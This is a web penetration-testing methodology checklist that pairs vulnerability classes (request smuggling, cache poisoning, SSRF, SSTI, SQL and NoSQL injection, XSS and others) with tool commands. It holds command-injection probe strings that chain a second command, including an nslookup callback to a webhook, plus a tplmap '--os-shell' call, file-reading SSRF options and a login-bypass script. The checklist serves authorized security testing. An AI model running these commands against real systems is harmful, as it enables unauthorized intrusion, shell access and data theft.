 # Methodology

## Proxies
- 🔵 __Abusing hop-by-hop headers__
```bash
// Tool hbh-header-abuse-test
for HEADER in $(cat /usr/share/seclists/Discovery/Web-Content/BurpSuite-ParamMiner/lowercase-headers); do python3 hbh-header-abuse-test.py -u <url> -x "$HEADER" -v; :'sleep 1'; done
```
- 🔴 __Cache Poisoning/Cache Deception__
```bash
// Tool Web-Cache-Vulnerability-Scanner
go install -v github.com/Hackmanit/Web-Cache-Vulnerability-Scanner@latest
cp go/Web-Cache-Vulnerability-Scanner tools/Web-Cache-Vulnerability-Scanner/wcvs
cd tools/Web-Cache-Vulnerability-Scanner/
./wcvs -u <url> -hw wordlists/headers -pw wordlists/parameters -f
```
- 🔴 __HTTP Request Smuggling__ 
```bash
// Burp - HTTP Request Smuggler
- Right click on a request and click Extensions > HTTP HTTP Request Smuggler > Smuggle Probe.

// Tool Smuggler by gwen001
wget https://raw.githubusercontent.com/gwen001/pentest-tools/master/smuggler.py
python3 smuggler.py -u <url> -v 3
```
- 🔴 __H2C Smuggling__
```
// Tool h2csmuggler
python3 h2csmuggler.py -x <url> -t --threads 5 -v
```
- 🔴 __Server Side Inclusion/Edge Side Inclusion__ (Detected by 👉 Burp Active Scanner)
- 🔵 __Uncovering Cloudflare__
- 🔴 __XSLT Server Side Injection__

## User input
### Reflected Values
- 🔴 __Client Side Template Injection__ (Like SSTI)
- 🔴 __Command Injection__
```
// Tool commix
commix -r <REQUESTFILE> -p <TEST_PARAMETER>

// Test delay
original_cmd_by_server;sleep+5
original_cmd_by_server&&sleep+5
original_cmd_by_server|sleep+5
original_cmd_by_server||sleep+5

// Test when no effect on the application's response
original_cmd_by_server;nslookup+<webhook>
```
- 🔴 __CRLF__
```
// Tool crlfuzz
crlfuzz -u <url>
```
- 🔴 __Dangling Markup__
- 🔴 __File Inclusion/Path Traversal__ (Detected by 👉 Burp Active Scanner)
```
// Fast Fuzzing
wfuzz -c -w /usr/share/wfuzz/wordlist/Injections/Traversal.txt --hw 0 http://10.10.10.10/nav.php?page=FUZZ
// Deep Fuzzing (recommend)
wfuzz -X GET -c -w file_inclusion_linux.txt --hw 0 http://10.10.10.10/nav.php?page=FUZZ
wfuzz -X POST -c -w file_inclusion_linux.txt --hw 0 -d "foo=FUZZ" http://10.10.10.10/nav.php
```
- 🔴 __Open Redirect__ (Detected by 👉 Burp Active Scanner)
- 🔴 __Prototype Pollution to XSS__ (NodeJS)
- 🔴 __Server Side Inclusion/Edge Side Inclusion__ (Detected by 👉 Burp Active Scanner)
- 🔴 __Server Side Request Forgery__
```
// Tool See-SURF (Test vulnerable parameter)
python3 see-surf.py -H <HOST> -b <BURP> -t 10

// Tool SSRFmap
python3 ssrfmap.py -r <REQFILE> -p <PARAM> -m readfiles,portscan

// Tool Gopherus (SSRF to RCE)
https://github.com/tarunkant/Gopherus
```
- 🔴 __Server Side Template Injection__ (Detected by 👉 Burp Active Scanner)
```
// Tool tplmap
python2 tplmap.py -u 'http://10.10.10.10/page?name=Box*' --os-shell
```
- 🔴 __Reverse Tab Nabbing__ (Detected by 👉 Burp Extension - Discover Reverse Tabnabbing)
- 🔴 __XSLT Server Side Injection__ (🔼 previous step)
- 🔴 __XSS__ (Detected by 👉 Burp Active Scanner)
```
// Tool DalFox
dalfox url http://10.10.10.10/?search=a -p search

// Tool XSStrike
python3 xsstrike.py -u "http://10.10.10.10/?search=a"
```
- 🔴 __XSSI__ (Detected by 👉 Burp Extension - Detect Dynamic JS_
- 🔴 __XS-Search__

### Search functionalities
- 🔴 __File Inclusion/Path Traversal__ (🔼 previous step)
- 🔴 __NoSQL Injection__
```
// Tool Nosql injection username and password enumeration script
python3 nosqli-user-pass-enum.py -u <URL> -up <USERNAME-PARAM> -pp <PASSOWRD-PARAM> -ep <ENUM-PARAM> -m <GET/POST>

// NoSQL-Attack-Suite
python3 nosql-login-bypass.py -t <TARGET> -u <USERNAME> -p <PASSWORD>
```
- 🔴 __LDAP Injection__
```
// Fuzzing
https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/LDAP%20Injection/Intruder/LDAP_FUZZ.txt
```
- 🟠 __ReDoS__
```
Regular Expression Denial of Service
// Tools
https://github.com/doyensec/regexploit
https://devina.io/redos-checker
```
- 🔴 __SQL Injection__
```
// Tool SQLmap
sqlmap -u <URL> -p <TESTPARAMETER> --threads=10 --risk=3 --level=5 --dbms=<DBMS> --banner
```
- 🔴 __XPATH Injection__
```
// Tool XCat
xcat --help
```

### Forms, WebSockets and PostMsgs
- 🔴 Cross Site Request Forgery (Detected by 👉 Burp Active Scanner)
```
// Tool XSRFProbe
xsrfprobe -u <URL>
```
- 🔴 Cross-site WebSocket hijacking (CSWSH)
```
// Tool STEWS
python3 STEWS-vuln-detect.py -u <URL> -1
```
- 🔴 PostMessage Vulnerabilities

### HTTP Headers
- 🔵 Clickjacking (Detected by 👉 Burp Scanner)
```
OR can use tool Clickjacking checker online
```
- 🔴 Content Security Policy bypass
- 🔴 Cookies Hacking
- 🔴 CORS - Misconfigurations & Bypass
